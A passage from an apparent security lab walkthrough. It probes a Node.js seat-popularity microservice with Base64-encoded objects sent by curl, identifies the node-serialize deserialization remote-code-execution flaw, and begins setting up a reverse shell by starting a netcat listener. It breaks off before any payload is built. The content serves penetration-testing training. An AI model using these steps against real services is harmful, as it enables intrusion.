 41. We need to Base64-encode the object, though.  Take a look at what the Base64-encoded version would look like.  We could look up a Base64-encoder on the web, but there's a simple command line tool for it. Try it out:

    ```shell
    echo '{"city":"Portland","section":"A","seat":"7-14"}' | base64 -w 0
    ```

42. Now that we know how to make a Base64-encoded object, let's try passing it as a GET parameter called `seat` on the `/popularity` API endpoint:

    ```shell
    object=$( echo '{"city":"Portland","section":"A","seat":"7-14"}' |
              base64 -w 0 )
    curl -s http://seatpop.private.svc.cluster.local/popularity?seat=$object
    ```

43. Notice that you were successful - the microservice returned an answer. Here's the output of the last command on our test system:

    ```
    In checkout cart for 5 customers
    ```

44. Now, remember that the specification web page had told us that this seat popularity microservice had to be written in JavaScript, for Node.js? It turns out that a very popular object serialization library for Node.js, called `node-serialize`, has a remote code execution vulnerability that has been present for years and is not being fixed. We can try the exploit to determine if the code is vulnerable.

45. Stop and read about the vulnerability, if you like.

- [Exploiting Node JS deserialization for RCE](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

46. We're going to use the same recipe that the author of that post did, creating an exploit that causes the vulnerable Node.js-hosted JavaScript code to connect back to us with a reverse shell. 

47. Before we start building an exploit, we'll need a netcat listener.  Start up a new terminal tab with Ctrl-Shift-t. 

    ```
    Hit Ctrl-Shift-t
    ```

48. Start up a netcat listener on port 9999 on your Kali system, so you have something to catch shells.

    ```shell
    nc -l -p 9999
    ```

49. Start up a new terminal tab with Ctrl-Shift-t. We'll use this to create the exploit.

    ```
    Hit Ctrl-Shift-t
    ```
